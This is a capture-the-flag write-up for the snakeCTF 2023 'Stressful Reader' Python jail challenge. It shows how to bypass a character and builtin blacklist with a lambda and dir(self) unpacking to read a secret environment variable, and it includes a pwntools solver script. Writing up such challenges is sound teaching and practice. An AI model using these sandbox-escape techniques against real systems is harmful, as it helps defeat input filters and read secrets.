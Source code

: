 # Stressful Reader [_snakeCTF 2023_]

**Category**: misc


## Description

I want to read an env variable, but I'm getting stressed out because of that blacklist!!! Would you help me plz? :(

## Solution


Looking at the source code, it's clear that we have to use the method `get_var`
to read the `FLAG` env variable. After taking a quick look to `badchars` we also
see that the characters F, L, A, G are blacklisted, so we have to find another
way to compose the word, and it's *highly probable* that `self.F`, `self.L`,
`self.A`, `self.G` can be used for this purpouse.

As usual with pyjails, to start it's a good idea to look at what we are left with.
A little script can help us to see what builtins, special keywords and
characters are able to pass the blacklist.

```py
badchars = [ 'c', 'h', 'j', 'k', 'n', 'o', 'p', 'q', 'u', 'w', 'x', 'y', 'z'
           , 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N'
           , 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W'
           , 'X', 'Y', 'Z', '!', '"', '#', '$', '%'
           , '&', '\'', '-', '/', ';', '<', '=', '>', '?', '@'
           , '[', '\\', ']', '^', '`', '{', '|', '}', '~'
           , '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']


badwords = ["aiter", "any", "ascii", "bin", "bool", "breakpoint"
           , "callable", "chr", "classmethod", "compile", "dict"
           , "enumerate", "eval", "exec", "filter", "getattr"
           , "globals", "input", "iter", "next", "locals", "memoryview"
           , "next", "object", "open", "print", "setattr"
           , "staticmethod", "vars", "__import__", "bytes", "keys", "str"
           , "join", "__dict__", "__dir__", "__getstate__", "upper"]


builtins = ["abs()", "aiter()", "all()", "anext()", "any()", "ascii()", "bin()", "bool()", "breakpoint()", "bytearray()", "bytes()", "callable()", "chr()", "classmethod()", "compile()", "complex()", "delattr()", "dict()", "dir()", "divmod()", "enumerate()", "eval()", "exec()", "filter()", "float()", "format()", "frozenset()", "getattr()", "globals()", "hasattr()", "hash()", "help()", "hex()", "id()", "input()", "int()", "isinstance()", "issubclass()", "iter()", "len()", "list()", "locals()", "map()", "max()", "memoryview()", "min()", "next()", "object()", "oct()", "open()", "ord()", "pow()", "print()", "property()", "range()", "repr()", "reversed()", "round()", "set()", "setattr()", "slice()", "sorted()", "staticmethod()", "str()", "sum()", "super()", "tuple()", "type()", "vars()", "zip()", "__import__()"]

keywords = ["False", "await", "else", "import", "pass", "None", "break", "except", "in", "raise", "True", "class", "finally", "is", "return", "and", "continue", "for", "lambda", "try", "as", "def", "from", "nonlocal", "while", "assert", "del", "global", "not", "with", "async", "elif", "if", "or", "yield"]


print("=== Available builtins ===")

for b in builtins:
    if (all(x not in b for x in badchars) and (b not in badwords)):
        print(b)

print("=== Available keywords ===")

for k in keywords:
    if (all(x not in k for x in badchars) and (k not in badwords)):
        print(k)

print("=== Available chars ===")

for i in range(32,256):
    if (chr(i) not in badchars):
        print(chr(i))
```


Keeping in mind that we want to use the object variables to compose "FLAG", we
see that we have some useful functions to access the object properties, like
`dir()`. Also, we have the characters to form `self.get_var()`, which is *really
good*.

Since we have the source code, we can run the jail locally with the blacklist
check removed to look at the output of `print(dir(self))` (we have to remove the
blacklist since in the actual jail `print` is blacklisted):

```py
> print(dir(self))
['A', 'F', 'G', 'L', '__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__
', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_
_weakref__', 'get_var', 'run_code']
```

So, `dir(self)` (which we can use) gives us the list of the names of the
object's properties. If we can find a way to access them and compose 'FLAG', we
are done. We don't have an easy way of accessing the list elements, since
numbers are blacklisted. The crucial point here is to realize that we have not
only builtin functions, but also some special characters like '+' or '\*' that
in python have a special meaning: '+' is also the string concatenation operator,
and '*' can be used to [unpack a list](https://treyhunner.com/2018/10/asterisks-in-python-what-they-are-and-how-to-use-them/)
in many positional arguments for a function. This means that we can form 'FLAG'
following this idea:

```py
> def win(arg1, arg2, ..., argn):
     return arg1 + arg3 + arg0 + arg2

> win(*dir(self))
  'FLAG'
```

But of course we can't write all that stuff in the jail... or can we? We can use
a `lambda` function!

`dir(self)` has 33 elements, so we need a function that takes 33 arguments and
performs the concatenation of the ones corrisponding to 'FLAG'. We can use the
permutations of the chars 'f','l','a','g','s' (or any of the available chars) to
form the name of the arguments, and this can be done easily with a script.

The final payload would look like this:

```py
> self.get_var((lambda flags,flasg,flgas,flgsa,flsag,flsga,falgs,falsg,fagls,fagsl,faslg,fasgl,fglas,fglsa,fgals,fgasl,fgsla,fgsal,fslag,fslga,fsalg,fsagl,fsgla,fsgal,lfags,lfasg,lfgas,l
fgsa,lfsag,lfsga,lafgs,lafsg,lagfs: flasg + flgsa + flags + flgas)(*dir(self)))

snakeCTF{7h3_574r_d1d_7h3_j0b}
```

After all this stress, we finally got the flag!


### Solver

```py

#!/usr/bin/env python3

from pwn import *
from itertools import permutations

context.log_level = 'error'

HOST = args.HOST if args.HOST else "localhost"
PORT = args.PORT if args.PORT else 12003

r = remote(HOST, PORT)

params = []
perm = list(permutations("flags"))

for i in range(33):
    params.append(''.join(perm[i]))

payload = f"self.get_var((lambda {','.join(params)}: {params[1]} + {params[3]} + {params[0]} + {params[2]})(*dir(self)))"
print(payload)

r.sendlineafter(b"> ", payload.encode('ascii'))
print(r.recvline().decode())
```


